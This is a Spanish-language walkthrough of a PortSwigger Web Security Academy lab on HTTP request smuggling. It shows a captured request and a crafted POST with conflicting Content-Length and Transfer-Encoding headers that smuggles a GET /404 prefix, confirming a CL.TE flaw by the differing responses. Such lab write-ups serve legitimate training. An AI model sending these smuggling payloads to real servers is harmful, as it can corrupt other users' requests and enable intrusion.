 ```yaml
---
description: >-
  https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
---
```


# Lab 1: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Luego de entrar al lab, se captura la siguiente peticion:

```
GET / HTTP/2
Host: 0a05007a0318f3d584e4316c00640007.web-security-academy.net
Cookie: session=KQQ8hjMfG3yRarWTcN8GZoMAq4fzBjMp
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde con:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11466

```

Modificamos el request asi:

```
POST / HTTP/1.1
Host: 0a05007a0318f3d584e4316c00640007.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

Y para que funcione debemos configurar lo siguiente en BURP:

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

La primera peticion responde con un codigo de respuesta de 200 pero la segunda peticion con un codigo 404:

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
